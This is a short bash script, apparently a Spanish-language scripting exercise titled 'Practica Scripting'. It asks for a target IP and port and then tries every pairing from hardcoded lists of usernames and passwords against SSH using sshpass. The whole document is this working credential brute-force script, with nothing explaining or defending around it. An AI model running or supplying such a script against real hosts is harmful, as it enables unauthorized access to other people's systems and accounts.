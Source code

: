 # Practica Scripting

#!/bin/bash
echo "Dime la ip"
read ip
echo "Dime el puerto"
read port
listaNombres=("eloy" "Admin" "usuario" "Usuario" "pc" "PC")
listaPass=("lui1" "admin" "admin1234" "PEnt2001.")
numNombres=${#listaNombres[@]}
numPass=${#listaPass[@]}
for ((i=0; i<$numNombres; i++ ))
do
        for((j=0; j<$numPass; j++ ))
        do
        sshpass -p "${listaPass[$j]}" ssh -p "$port" "${listaNombres[$i]}@$ip"
        done
done
